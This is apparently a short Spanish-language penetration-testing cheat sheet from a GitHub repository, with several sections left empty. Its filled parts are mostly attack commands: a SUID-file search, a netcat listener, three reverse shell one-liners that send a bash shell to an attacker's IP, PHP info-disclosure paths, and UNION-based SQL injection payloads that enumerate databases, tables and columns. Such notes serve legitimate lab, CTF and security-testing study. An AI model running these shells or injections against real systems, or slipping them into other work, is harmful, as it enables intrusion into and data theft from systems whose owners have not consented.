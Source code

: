 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:

``` find  \-perm -4<PERMISOS> 2>/dev/null ```
### Python
Crear un servidor de python en mi máquina local:

``` python3 -m http.server <PORT> ```
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

``` nc -e /bin/bash <MY_IP> <PORT> ```

``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```

``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based
### Blind

## Server Site Template Injection (SSTI)
## Server Site Request Forgery (SSRF)
## Cross Site Request Forgery (CSRF)
## Cross Site Scripting (XSS)
### Reflect
### Store
### DOM


